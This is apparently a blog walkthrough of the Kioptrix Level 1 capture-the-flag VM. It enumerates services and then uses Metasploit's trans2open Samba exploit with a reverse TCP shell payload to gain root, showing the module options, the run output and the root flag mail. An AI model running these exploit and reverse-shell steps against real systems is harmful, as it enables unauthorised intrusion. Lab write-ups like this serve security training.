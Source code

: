 ```yaml
---
layout: blog_item
title:  "Kioptrix Level 1 Walkthrough"
date:   2023-12-19 14:00:10
author: Dhruv Ambaliya
description: 'Kioptrix Level 1 Walkthrough, CTF solution for Kioptrix Level 1.'
categories: [walkthroughs]
tags:
- Kioptrix
- CTF
---
```


<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa fa-coffee">Easy</i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}

## Author Description

The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges.

## Service Enumeration

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Port</th>
      <th>Service</th>
      <th>Version Detection</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><code>TCP: 22</code></p></pc>
           </td>
           <td>
               <pc><p>SSH</p></pc>
           </td>
           <td>
               <pc><p>OpenSSH 2.9p2 (protocol 1.99)</p></pc>
           </td>
        </tr>
        <tr>
           <td>
               <pc><p><code>TCP: 80</code></p></pc>
           </td>
           <td>
              <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 1.3.20 ((Unix)</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 111</code></p></pc>
           </td>
           <td>
              <pc><p>RPC Bind</p></pc>
           </td>
           <td>
               <pc><p>N/A</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 139</code></p></pc>
           </td>
           <td>
              <pc><p>netbios-ssn</p></pc>
           </td>
           <td>
               <pc><p>Samba</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 443</code></p></pc>
           </td>
           <td>
              <pc><p>HTTPS</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 1.3.20 ((Unix)</p></pc>
           </td>
        </tr>

      </tbody>

</table>
</div>


## Samba Enumeration

Based on the age of the system other services, I know from exeperience that SAMBA is likely vulnerable to the trans2open exploit.


{% highlight bash %}


use exploit/linux/samba/trans2open

msf exploit(trans2open) > show options

Module options (exploit/linux/samba/trans2open):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST  192.168.221.156  yes       The target address
   RPORT  139              yes       The target port


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.221.139  yes       The listen address
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Samba 2.2.x - Bruteforce


{% endhighlight %}


## Metasploit Exploit

{% highlight bash %}
msf exploit(trans2open) > run

[*] [2015.12.20-21:05:39] Started reverse handler on 192.168.221.139:4444
[*] [2015.12.20-21:05:40] Trying return address 0xbffffdfc...
[*] [2015.12.20-21:05:41] Trying return address 0xbffffcfc...
[*] [2015.12.20-21:05:42] Trying return address 0xbffffbfc...
[*] [2015.12.20-21:05:43] Trying return address 0xbffffafc...
[*] Command shell session 1 opened (192.168.221.139:4444 -> 192.168.221.156:1025) at 2015-12-20 21:05:44 -0500


^Z
Background session 1? [y/N]  N

id
uid=0(root) gid=0(root) groups=99(nobody)
hostname
kioptrix.level1
^Z
Background session 1? [y/N]  y
{% endhighlight %}


## Root Flag


Root Flag

{% highlight bash %}
sh-2.05# cd /var/spool/mail
cd /var/spool/mail
sh-2.05# ls
ls
harold
john
nfsnobody
root
sh-2.05# cat root   
cat root
From root  Sat Sep 26 11:42:10 2009
Return-Path: <root@kioptix.level1>
Received: (from root@localhost)
    by kioptix.level1 (8.11.6/8.11.6) id n8QFgAZ01831
    for root@kioptix.level1; Sat, 26 Sep 2009 11:42:10 -0400
Date: Sat, 26 Sep 2009 11:42:10 -0400
From: root <root@kioptix.level1>
Message-Id: <200909261542.n8QFgAZ01831@kioptix.level1>
To: root@kioptix.level1
Subject: About Level 2
Status: O

If you are reading this, you got root. Congratulations.
Level 2 won't be as easy...
{% endhighlight %}
